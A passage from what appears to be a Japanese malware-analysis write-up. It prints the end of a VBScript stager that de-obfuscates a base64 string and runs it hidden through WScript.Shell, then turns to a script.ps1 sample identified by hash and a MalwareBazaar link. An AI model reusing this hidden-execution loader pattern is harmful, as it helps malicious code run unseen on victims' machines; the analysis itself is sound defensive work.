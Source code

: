 ```vb
  vCode = Replace(vCode, "@", "a")
  vCode = Replace(vCode, "-", "H")
  vCode = Replace(vCode, "$", "S")
  Dim oXML, oNode
  Set oXML = CreateObject("Msxml2.DOMDocument.3.0")
  Set oNode = oXML.CreateElement("base64")
  oNode.DataType = "bin.base64"
  oNode.text = vCode
  Base64Decode = Stream_BinaryToString(oNode.nodeTypedValue)
  Set oNode = Nothing
  Set oXML = Nothing
End Function

Set objShell = CreateObject("WScript.Shell")
objShell.Run (Base64Decode(xxx)), 0, False
```

##### script.ps1の解析

さて、次に見るべきは`script.ps1`です。（多分、ここから`temp.ps1`が動作するのでしょう）  
とはいえ、この内容はoletoolsからは見れませんでしたし、個別にダウンロードしてしまいましょう。  

- filename: script.ps1
- sha256: bda4484bb6325dfccaa464c2007a8f20130f0cf359a7f79e14feeab3faa62332

こちらもabuse.chでアップロードされていたのでそこから見ます。  

https://bazaar.abuse.ch/sample/bda4484bb6325dfccaa464c2007a8f20130f0cf359a7f79e14feeab3faa62332/

まずテキストとして開いてみてみると、以下のような感じです。
